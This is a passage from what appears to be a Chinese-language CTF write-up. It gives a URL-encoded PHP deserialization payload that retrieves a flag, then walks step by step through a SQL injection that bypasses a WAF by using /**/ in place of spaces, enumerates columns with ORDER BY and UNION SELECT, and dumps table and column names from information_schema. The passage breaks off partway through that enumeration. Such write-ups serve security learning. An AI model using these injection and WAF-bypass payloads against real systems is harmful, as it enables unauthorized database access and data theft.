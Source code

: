 之后构造 Payload 如下即可得到 flag 。

```
w00m=O%3A4%3A%22w22m%22%3A1%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w33m%22%3A2%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w44m%22%3A2%3A%7Bs%3A11%3A%22%00w44m%00admin%22%3Bs%3A4%3A%22w44m%22%3Bs%3A9%3A%22%00%2A%00passwd%22%3Bs%3A5%3A%2208067%22%3B%7Ds%3A4%3A%22w22m%22%3Bs%3A7%3A%22Getflag%22%3B%7D%7D
```

### sql

题目中说明需要绕过 Waf ，那就先判断被过滤的字符，构造 Payload 如下

```
wllm=1' and 1=1%23
wllm=1'||1=1%23
wllm=1' or 1%23
```

回显提示存在非法字符，

```
wllm=1'||1#
```

此时回显并没有提示存在非法字符，可以推断出过滤了 `=` 和 `空格` 。

构造 Payload 如下

```
wllm=1'/**/order/**/by/**/1%23
wllm=1'/**/order/**/by/**/2%23
wllm=1'/**/order/**/by/**/3%23
wllm=1'/**/order/**/by/**/4%23
```

到 `4` 时出现报错，因此长度为 `3` 。

构造 Payload 如下

```
wllm=-1'/**/union/**/select/**/1,2,3%23
```

可以发现 `2,3` 有回显，构造 Payload 如下

```
wllm=-1'/**/union/**/select/**/1,database(),3%23
```

可以得到数据库名 `test_db` ，构造 Payload 如下

```
wllm=-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'test_db'),3%23
```

可以得到表名 `LTLT_flag, users` ，构造 Payload 如下（插曲：发现 and 也被过滤了）

```
wllm=-1'/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema/**/like/**/'test_db'),3%23
```
